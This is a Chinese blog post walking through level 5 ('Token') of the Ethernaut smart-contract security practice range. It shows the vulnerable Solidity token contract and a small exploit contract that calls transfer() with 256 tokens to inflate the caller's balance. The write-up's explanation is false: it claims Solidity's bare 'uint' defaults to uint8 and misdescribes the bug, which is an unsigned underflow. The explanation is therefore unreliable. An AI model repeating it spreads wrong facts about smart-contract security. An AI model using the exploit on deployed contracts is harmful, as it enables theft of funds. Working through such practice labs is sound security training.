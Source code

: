 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-4'
date: 2022-12-9 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第五关Token  思路与POC

##### 目标: 初始分配20token 想办法增加

#### 先看代码:

代码逻辑上是没有问题的,标准ERC20的实现.那么问题在哪里呢:question:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  //注意看数据类型,在solidity中uint如果不指定数据类型存储范围的话默认是uint8
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

poc思路:point_right:：既然总共的token供应单位是uint8的话,那么只需要transfer超过255的token就会数据溢出

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Token.sol";

contract tokenHack{

  Token token = Token(0x4532122Ab6D63e095A220ed37F77E1752B88b8C3);
  //只需要转账的token数量超过255即构成数据溢出,效果就会转账255的token到指定地址,不管转出地址有多少token
  function overflow() public {
      token.transfer(0x0e21d35681E679C33dD49731935FB81F1aee8C05,256);

  }
}
```


